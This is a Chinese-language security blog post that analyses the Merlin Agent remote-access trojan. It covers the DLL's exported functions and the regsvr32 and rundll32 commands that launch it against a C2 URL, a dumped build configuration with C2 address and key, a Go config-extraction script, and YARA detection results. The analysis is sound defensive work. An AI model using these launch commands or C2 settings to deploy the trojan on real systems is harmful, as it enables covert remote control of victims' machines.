# Merlin后渗透利用框架之Merlin Agent远控木马剖析-先知社区

> **来源**: https://xz.aliyun.com/news/16796  
> **文章ID**: 16796

---

## 概述

简单小结：

`兜兜转转又一年，2024就这样过去了，一晃马上就要过春节了。`

`简单盘点了一下，最近确实太忙了，好像有近几个月没有写文章了。。。`

`刚好临近过年，工作也在慢慢的收尾，左思右想，在这个内卷严重的时代，外部竞争如此激烈，还是要留一点时间去做技术研究，去拓宽自己的知识面，才能积累更多的思路，发现新的方法和路径，从而才能接触更多的机会。`

回到正题：

近期，由于一些事务，笔者挖掘发现网络中存在使用MerlinAgent进行网络攻击的行为，经过简单分析和研究，发现此远控木马原来是由Golang语言编写的开源项目，刚好笔者对Golang语言还比较熟悉，所以，就决定对此远控木马框架进行详细的研究和剖析。

基于网络搜索，可以很快的找到此开源项目的资料：

* `https://github.com/Ne0nd0g/merlin`：Merlin Server
* `https://github.com/Ne0nd0g/merlin-cli`：命令行交互式界面，使用gRPC连接Merlin Server
* `https://github.com/Ne0nd0g/merlin-agent`：Merlin Agent EXE木马
* `https://github.com/Ne0nd0g/merlin-agent-dll`：Merlin Agent DLL木马

经过简单研究，发现Merlin远控框架的功能还比较多，所以我们目前暂时只对Merlin远控框架的Merlin Agent远控木马进行技术剖析。

## Merlin后渗透利用框架

为了更好的理解Merlin Agent远控木马的功能，我们先简单使用Merlin后渗透利用框架复现木马上线的过程：

* Merlin Server：运行后默认监听本地的50051端口



* Merlin CLI：运行后默认连接本地的50051端口（Merlin Server）



* Merlin CLI：使用命令开启HTTPS端口监听，默认443端口





* Merlin Agent：运行后默认连接本地的443端口，木马上线



* Merlin CLI：远程控制



## Merlin Agent样本剖析

由于在真实攻击场景中，攻击者一般选择DLL文件作为远控木马，所以，笔者首先选择使用Merlin Agent DLL样本作为研究对象：

* 下载地址：`https://github.com/Ne0nd0g/merlin-agent-dll/releases`中下载的merlin-agent-dll.7z样本
* 样本版本：v2.3.1

相关截图如下：



### golang字符串

通过分析，发现在IDA中可看到大量golang库字符串信息，相关截图如下：



### 导出函数

通过分析，发现样本存在多个导出函数，相关截图如下：



尝试查看说明文档及源代码，梳理导出函数信息如下：

|  |  |  |
| --- | --- | --- |
| 导出函数名 | 入口代码 | 使用方式 |
| DllInstall | func DllInstall() { run(url) } | regsvr32.exe /s /n /i merlin.dll |
| DllRegisterServer | func DllRegisterServer() { run(url) } | regsvr32.exe /s merlin.dll |
| DllUnregisterServer | func DllUnregisterServer() { run(url) } | regsvr32.exe /s /u merlin.dll |
| Merlin | func Merlin(u \*C.char) { if len(C.GoString(u)) > 0 { url = C.GoString(u) } run(url) } | 接受 C \*char字符串，DLL加载时使用 |
| Run | func Run() { // If using rundll32 spot 0 is "rundll32", spot 1 is "merlin.dll,Run" if len(os.Args) >= 3 { if strings.HasPrefix(strings.ToLower(os.Args[0]), "rundll32") { url = os.Args[2] } } run(url) } | `rundll32.exe merlin.dll,Run https://127.0.0.1:443` |
| VoidFunc | func VoidFunc() { run(url) } | 与 PowerSploit 的 Invoke-ReflectivePEInjection.ps1配合使用 |

### 配置信息

通过分析，发现样本在进入main\_run函数中执行代码时，将从自身样本中提取配置信息，配置信息中包含了内置外联地址、UserAgent、加解密算法等。

相关代码截图如下：



### 远控功能

通过分析，发现样本具备大量远控功能，相关代码截图如下：



## 自动化提取Merlin Agent样本配置信息

由于Merlin Agent样本是开源样本，因此，当我们对其进行样本分析时，只需要尝试提取此样本的特有行为即可。

结合前述分析，我们知道攻击者的自定义行为均存放于配置信息中。

由于此样本是由golang编译的，因此，逻辑上存放于样本中的字符串是无序的，我们可能需要采用上述提取配置信息的方法，基于IDA并定位函数再提取配置信息。

但是，在此样本中，笔者发现了一个较快捷的提取配置信息的方式，笔记觉得还挺有意思的，而且，**笔者还尝试从网络中下载了多个Merlin Agent样本，并基于相同方法提取配置信息，发现均可较快捷的提取**。。。\_

### 直接暴露配置信息？

在分析过程中，笔者发现：

* 直接在文件中搜索`-ldflags=`字符串，即可完整提取样本的配置信息

相关截图如下：



提取配置信息如下：

-ldflags="-s -w -X \"main.auth=opaque\" -X \"main.addr=127.0.0.1:4444\" -X \"main.transforms=jwe,gob-base\" -X \"main.listener=\" -X \"github.com/Ne0nd0g/merlin-agent/v2/core.Build=d40b50a10e57c0b30f40e5af0dfb46bd4e692d69\" -X \"main.protocol=h2\" -X \"main.url=https://127.0.0.1:443\" -X \"main.host=\" -X \"main.httpClient=go\" -X \"main.psk=merlin\" -X \"main.secure=false\" -X \"main.sleep=30s\" -X \"main.proxy=\" -X \"main.useragent=Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.85 Safari/537.36\" -X \"main.headers=\" -X \"main.skew=3000\" -X \"main.padding=4096\" -X \"main.killdate=0\" -X \"main.maxretry=7\" -X \"main.parrot=\" -H=windowsgui -buildid="

根据上述提取的配置信息，笔者发现上述内容实际为Golang编译程序时所使用的编译选项：

* `-s`：去除符号表和调试信息
* `-w`：去除 DWARF 调试信息
* `-X`：设置变量的值

### 一探究竟--编译选项原理

为了确认此配置信息提取方法较准确，笔者尝试构建了一个模拟程序，发现确实是这么一回事。

* 模拟程序代码

```
package main

import (
    "fmt"
)

var auth = "http://127.0.0.1:4444"

// 主函数
func main() {
    fmt.Println(auth)
}
```

* `go build`：字符串无序的存放于模拟程序中



* `go build -ldflags="-X "main.auth=http://helloworld.com/""`：字符串存放于编译选项中



### 一探究竟--Merlin Agent样本是怎么编译的？

查看Merlin项目说明文档，发现Merlin Agent样本是使用Makefile文件编译的，相关说明如下：



* Merlin Agent EXE木马的Makefile文件内容如下：**在Makefile中自定义配置信息，由Makefile调用**`go build -ldflags="-X xxxx"`**命令实现变量值的传递**



* Merlin Agent DLL木马的Makefile文件内容如下：**在Makefile中自定义配置信息，由Makefile调用**`go build -ldflags="-X xxxx"`**命令实现变量值的传递**



### 自定义提取Merlin Agent样本配置信息

根据上述结论，我们发现，只要使用官方提供的编译方式，即会导致配置信息直接暴露于样本文件中。

因此，针对此类样本，我们即可编写自动化程序实现自动化提取配置信息。

自动化程序提取配置信息的效果如下：





自动化提取配置信息的脚本代码如下：

```
package main

import (
    "bytes"
    "fmt"
    "io/ioutil"
    "os"
    "strings"
)

func main() {
    filename := os.Args[1]
    data, _ := ioutil.ReadFile(filename)
    if strings.Contains(string(data), `-ldflags="`) {
        index := strings.Index(string(data), `-ldflags="`)
        offset := bytes.Index(data[index:index+0x1000], []byte{0xA})
        configdata := strings.ReplaceAll(strings.TrimSuffix(strings.TrimPrefix(string(data[index:index+offset]), `-ldflags="`), `"`), `"`, `"`)
        fmt.Println(strings.ReplaceAll(configdata, ` -`, string([]byte{0xA})+`-`))
    }
}
```

## 如何检测Merlin Agent木马

为了实现Merlin Agent木马的自动化检测，笔者尝试在网络中搜索了一番，在`https://github.com/Neo23x0/signature-base/blob/38d1f4f0f87c009289a1aef111af9d89d75ed260/yara/gen_merlin_agent.yar`地址中找到了针对Merlin Agent木马的yara规则。

虽然此yara规则的时间确实还是比较久了，不过还是能成功检测当前最新版本的Merlin Agent木马了。

相关yara规则截图如下：



yara规则扫描结果如下：（笔者抽选了多个版本的Merlin Agent木马，发现都能成功扫描）



```
C:\Users\admin\Desktop\yara-v4.5.2-2326-win64>yara64.exe test.yar C:\Users\admin\Desktop\Merlin -r
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Darwin-x64_v1.1.0\merlinAgent-Darwin-x64
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Linux-x64_v1.2.0\merlinAgent-Linux-x64
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Linux-x64_v2.4.1\merlinAgent-Linux-x64
